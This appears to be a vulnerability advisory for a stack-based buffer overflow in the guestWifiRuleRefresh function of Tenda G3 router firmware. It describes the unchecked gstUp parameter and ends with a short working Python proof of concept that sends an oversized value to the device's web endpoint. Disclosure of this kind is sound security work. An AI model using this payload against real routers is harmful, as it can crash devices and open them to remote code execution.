 # Tenda G3 guestWifiRuleRefresh
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the guestWifiRuleRefresh function.
### Vulnerability details
Stack-based buffer overflow in function guestWifiRuleRefresh on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function guestWifiRuleRefresh line 38, it reads in a user-provided parameter, and the variable gstUp is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/guestWifiRuleRefresh-1.png)
![](images/guestWifiRuleRefresh-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/guestWifiRuleRefresh'
payload = {
    "gstUp": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
